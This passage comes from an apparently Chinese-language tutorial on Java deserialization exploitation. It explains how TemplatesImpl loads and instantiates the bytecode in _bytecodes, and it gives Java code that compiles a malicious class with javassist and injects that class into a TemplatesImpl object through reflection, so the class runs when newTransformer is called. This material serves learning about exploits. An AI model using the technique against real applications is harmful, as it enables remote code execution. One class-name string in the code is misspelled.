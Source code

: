 首先创建一个类加载器loader，然后用类加载器的loader.defineClass方法，去加载字节码`_bytecodes`(通过反射将字节码转换成一个类)，然后将所有的得到的Class对象，放到属性`_class`里面。

然后我们退出这个方法，回来看这一句：

![image-20231123183028257](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20231123183028257.png)

将上面得到的类对象，直接实例化了一个对象出来！

再来梳理一下：

```java
将一个byte[]数组_bytecodes   //byte[]{}
转换成一个类对象		// Class Evil(){}
实例化该对象(new)		//new Evil()
```



#### 如何得到_bytecodes

所以，我们需要一个TemplatesImpl对象，并且保证他的`_bytecodes` 中包含的是一个恶意类编译后的字节码

我们只要把恶意类的字节码交给TemplatesImp的`_bytecodes`属性即可



先来了解一下，如何将一个类编译成字节码：这就用到了**javassist**



我们使用前面的恶意类，然后我们需要将其编译成字节码，这就是一个恶意类的字节码了。

```java
ClassPool classPool = ClassPool.getDefault();
CtClass ctClass = classPool.getCtClass("EvilTemplatesImpl"); //这里恶意类放在同目录下所以没有写包名
byte[] bytes = ctClass.toBytecode();
System.out.println(bytes);
```

接下来我们要给这些字节码找到一个载体。

```java
byte[] bytes = ctClass.toBytecode();
TemplatesImpl TemplatesImpl_instance = new TemplatesImpl();

//将恶意类的字节码设置给_bytecodes属性
Class<?> aClass = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImp");
Field bytecodes = aClass.getDeclaredField("_bytecodes");
bytecodes.setAccessible(true);
bytecodes.set(TemplatesImpl_instance, new byte[][]{bytes});

```

直接new了一个TemplatesImpl对象，然后通过反射强行修改他的字节码为我们的恶意字节码。

这样，**当触发TemplatesImpl_instance的newTransformer方法时**，就会按照我们上面所讲的，最终将我们的恶意字节码执行起来。





